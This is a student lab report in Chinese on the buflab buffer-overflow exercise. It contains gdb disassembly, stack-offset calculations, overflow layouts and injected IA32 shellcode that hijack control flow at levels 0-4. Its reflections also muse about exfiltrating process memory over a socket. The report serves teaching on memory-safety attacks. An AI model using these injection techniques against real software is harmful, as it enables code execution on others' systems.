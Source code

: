 # buflab实验报告
***

## 实验原理

### Level0

#### 思路：

* test函数调用getbuf()函数时，先将返回地址压入栈中，再将eip指向getbuf()函数首句指令的地址
* 找到返回地址的地址，并将该地址的值修改成为smoke()函数首句指令的地址

#### 步骤：

* ubuntu16.04系统环境下运行gdb

```c
//加载可执行文件
>>> file bufbomb
//反编译smoke函数，拿到起始地址,为0x08048b04
>>> disassem smoke

>>> 0x08048b04 <+0>:	push   %ebp
    0x08048b05 <+1>:	mov    %esp,%ebp
    0x08048b07 <+3>:	sub    $0x18,%esp
    0x08048b0a <+6>:	movl   $0x804a5b0,(%esp)
    0x08048b11 <+13>:	call   0x8048900 <puts@plt>
    0x08048b16 <+18>:	movl   $0x0,(%esp)
    0x08048b1d <+25>:	call   0x804942e <validate>
    0x08048b22 <+30>:	movl   $0x0,(%esp)
    0x08048b29 <+37>:	call   0x8048920 <exit@plt>

//反编译getbuf函数，观察其栈帧结构
>>> disassem getbuf

>>> 0x08049284 <+0>:	push   %ebp
    0x08049285 <+1>:	mov    %esp,%ebp
    0x08049287 <+3>:	sub    $0x38,%esp
    0x0804928a <+6>:	lea    -0x28(%ebp),%eax
    0x0804928d <+9>:	mov    %eax,(%esp)
    0x08049290 <+12>:	call   0x8048d66 <Gets>
    0x08049295 <+17>:	mov    $0x1,%eax
    0x0804929a <+22>:	leave  
    0x0804929b <+23>:	ret 

//打断点并监测中断时的寄存器值，拿到不同情况下的ebp和eip
>>> break getbuf
>>> run -u 2016013239
>>> -c
>>> info integers
>>> -c
>>> info integers


```

* getbuf函数中，eax指向char buf[32]的起始地址
* eax与旧ebp的存储地址相差 2 * 16 + 8 = 40个字节
* 旧ebp使用4个字节存储，再上方即为返回地址

#### 答案（注意使用小端存储）
40个占位字节（非结束符）+ test的ebp + smoke的返回地址

***

### Level1

#### 思路：
* 与level0大致相同，但要传参数，故需要将溢出覆盖到参数位置上
* 在正常调用fizz函数时，第一个参数的位置为ebp+8

#### 答案：
40个占位字节（非结束符）+ test的ebp + smoke的返回地址 + 4个占位字节 + cookie的值

*** 

### level2

#### 思路：
* 观察反汇编代码，得到缓冲区入口地址和全局变量的地址
* 将getbuf()的返回地址指向缓冲区的起始地址
* 函数返回后，会先执行缓冲区中注入的可执行的机器指令（精心设计）
* 执行目的指令(修改global)后，push bang()函数的起始地址，再调用ret指令，使eip指向bang()函数，跳转完成

```c
//juice.s
movl $0x5d434ea2,%eax
movl %eax,0x804e10c
pushl $0x08048b82
ret
```
```c
//将汇编代码写进juice.s文件中，编译得到可执行文件
>>> gcc -m32 -c juice.s
//反汇编查看机器指令
>>> objdump -d juice.o
```

#### 答案：
反编译得到的机器指令 + 占位字节 + 返回地址(缓冲区地址）

***
### level3
#### 思路：
* 向缓冲区注入代码修改返回寄存器eax的值，让其等于cookie，修改ebp使其等于test函数运行时的ebp
* 观察test()函数，得到调用getbuf()函数的下一行指令的地址
* 将地址压栈，再ret

```c
//test函数
0x08048be0 <+0>:	push   %ebp
...
0x08048bee <+14>:	call   0x8049284 <getbuf>
0x08048bf3 <+19>:	mov    %eax,-0xc(%ebp)
...
0x08048c28 <+72>:	mov    %eax,(%esp)
```
```c
//juice.s
movl $0x55683be0,%ebp
movl $0x5d434ea2,%eax
pushl $0x08048bf3
ret
```
#### 答案：
反编译得到的机器指令 + 占位字节 + 返回地址(缓冲区地址）

***
### level4
#### 思路：
* 需要调用5次getbufn()函数，且必须准确返回到testn()函数中
* 虽然写字符串会覆盖掉旧的ebp，使得getbufn结束跳转到攻击代码时ebp的值不能正常恢复
* 在getbufn的最后，esp已经被正常恢复到testn调用getbufn之前的状态
* 而testn中，esp = ebp - 0x28，凭借此关系恢复ebp

```c
//juice.s
leal 0x28(%esp),%ebp
movl $0x5d434ea2,%eax
pushl $0x08048c67
ret
```
#### 答案：
占位nop指令 + 反编译得到的机器指令 （共计528字节 = 0x208 + 8）

***

## 实验感想
* 在IA32汇编指令中立即数操作和指针数操作不同
	* mov 0x12345678,%eax代表将该地址的值赋给eax
	* mov $0x12345678,%eax代表将值本身赋给eax
	* 我中了这个坑

* 为提高实验效率，应当先打印所有相关函数的反汇编结果以及断点运行下不同状态的寄存器的值，记录关键信息

* 本次实验让我对缓冲区溢出理解更加深刻，我也想到了更多神奇的溢出区攻击方法，以后编程中，需要加以防范：

	1、注入死循环的机器指令  
	2、一个缓冲区漏洞长度有限，可否通过建立一个socket，不断向外发送已经读取的进程的数据区，代码区，实现全偷盗
